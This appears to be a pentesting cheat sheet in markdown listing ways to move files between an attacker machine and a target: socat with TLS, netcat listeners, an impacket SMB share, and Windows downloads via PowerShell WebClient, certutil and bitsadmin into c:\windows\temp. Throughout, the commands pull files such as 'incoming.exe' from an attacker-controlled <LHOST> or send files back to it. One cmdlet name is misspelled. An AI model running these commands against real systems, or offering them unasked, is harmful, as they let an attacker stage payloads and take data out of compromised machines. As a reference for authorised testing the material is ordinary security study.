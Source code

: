 ## socat: encrypted file transfer
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on machine hosting the file:
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork file:file.txt
```
### step #4: on machine receiving the file:
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0 file:file.txt,create
```
## Powershell trasnfer: using .Net WebClient:
```powershell
(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)
```
## file transfer with netcat
### on recieving end
```bash
nc -nlvp 443 > incoming.exe
```
### on sending end
```bash
nc -nv <LHOST> 443 < /path/to/file_to_be_sent.exe
```
## SMB file transfer with impacket's `smbserver.py`
### start server on kali
```bash
smbserver.py <SHARE_NAME> `pwd` -smb2support
```
### copy/move file from share
```shell
xcopy \\<LHOST>\<SHARE_NAME>\<FILE_NAME> c:\windows\temp
```
### copy/move file to share
```shell
xcopy c:\windows\temp\test.txt \\<LHOST>\<SHARE_NAME>\test.txt
```
## using `certutil.exe`
```shell
certutil -f -urlcache HTTP://<LHOST>:<LPORT>/<FILE_NAME> c:\windows\temp\<FILE_NAME>
```
## using `bitsadmin`
```shell
bitsadmin /transfer myDownloadJob /download /priority high http://<LHOST>:<LPORT>/<FILE> c:\windows\temp\<FILE_NAME>
```
## using powershell `Start-BitsTransfer`
```powershell
Start-BitsTrasnfer -Source "HTTP://<LHOST>:<LPORT>/<FILE_NAME>" -Destination c:\windows\temp\<FILE_NAME>
```